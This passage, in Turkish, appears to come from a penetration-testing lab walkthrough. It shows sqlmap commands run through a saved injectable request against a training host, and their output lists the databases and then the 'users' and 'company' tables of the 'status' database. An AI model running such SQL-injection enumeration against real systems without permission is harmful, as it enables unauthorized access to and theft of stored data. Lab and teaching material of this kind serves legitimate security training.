 ```shell-session
[00:07:38] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/status.inlanefreight.local'

[*] ending @ 00:07:38 /2022-06-21/
```

Sonrasında, mevcut veritabanlarını listeleyebiliriz ve **status** veritabanının özellikle ilgi çekici olduğunu görebiliriz:

```shell-session
[!bash!]$ sqlmap -r sqli.txt --dbms=mysql --dbs

<SNIP>

---
[00:09:24] [INFO] testing MySQL
[00:09:24] [INFO] confirming MySQL
[00:09:24] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.10 or 20.04 or 19.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 8.0.0
[00:09:24] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] status
[*] sys

[00:09:24] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/status.inlanefreight.local'

[*] ending @ 00:09:24 /2022-06-21/
```

Durum veritabanına odaklandığımızda, sadece iki tablo olduğunu görürüz:

```shell-session
[!bash!]$ sqlmap -r sqli.txt --dbms=mysql -D status --tables

<SNIP>

---
[00:10:29] [INFO] testing MySQL
[00:10:29] [INFO] confirming MySQL
[00:10:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 19.10 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 8.0.0
[00:10:29] [INFO] fetching tables for database: 'status'
Database: status
[2 tables]
+---------+
| company |
| users   |
+---------+
```
